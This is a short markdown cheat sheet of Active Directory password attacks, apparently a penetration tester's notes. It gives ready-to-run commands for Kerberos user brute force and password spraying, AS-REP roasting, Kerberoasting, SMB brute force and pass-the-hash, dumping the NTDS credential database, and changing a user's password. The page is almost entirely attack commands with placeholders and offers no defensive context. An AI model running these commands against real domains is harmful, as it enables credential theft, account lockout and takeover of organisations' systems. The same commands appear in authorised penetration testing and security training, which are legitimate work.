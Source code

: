# Passwords
## Kerberos
Find users with brute force - WILL LOCKOUT USER:
`kerbrute bruteuser --dc <IP> -d <DOMAIN> <PASSLIST> <USER>`

Check a password for userlist:
`kerbrute passwordspray --dc <IP> -d <DOMAIN> -v <USERLIST> <PASS>`

AS-REP (AS-REP Roasting):
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/ -usersfile <USERLIST>` 
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request` (creds)
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --asreproast <OUTPUT>` (creds)

TGS-REP (Kerberoasting):
`impacket-GetUserSPNs -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request` (creds)
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --kerberoasting <OUTPUT>` (creds)

## NetBIOS & SMB
Brute force passwords - WILL LOCKOUT USER:
`crackmapexec smb <IP> -u <USER> -p <PASSLIST>`
`crackmapexec smb <IP> -u <USER> -H <HASHES>`

Check password for users in list:
`crackmapexec smb <IP> -u <USERLIST> -p <PASS>`

If you have admin rights. Dump NTDS file:
`impacket-secretsdump '<DOMAIN>/<USER>:<PASS>@<IP>'`

Change password user:
`smbpasswd -U <USER> -r <DC_IP>`